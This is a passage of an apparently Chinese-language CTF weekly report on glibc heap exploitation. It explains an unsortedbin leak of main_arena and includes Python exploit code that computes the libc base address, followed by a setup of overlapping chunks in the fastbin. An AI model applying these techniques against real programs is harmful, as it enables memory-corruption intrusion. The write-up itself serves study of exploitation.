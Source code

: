 这个chunk4要被放到unsortedbin里面。

然后它指向main_arena的地址。

泄露地址，获得libc的基址：

```pythoN
dump(2)
#so here,we can print the address of main_arena
content = u64(p.recvuntil(b'\x7f')[-6:]+b'\x00\x00')
print(hex(content))
libc_base = (content) - 0x3c4b78
print(hex(libc_base))
```



然后分配一个chunk4，替代了上个chunk4。这个chunk4的大小是0x71,chunk2，也就是程序以为的chunk2，应该是0x21的大小。虽然下面的那个放合并的chunk5显示的是0x90，说上一个chunk处在空闲状态。 但其实chunk2并不处在空闲状态。

![image-20220407120658941](2022.4.11周报.assets/image-20220407120658941.png)



接着freechunk4，也就是我们分配的这个0x60的chunk。

这个chunk4会被放到fastbin里面。
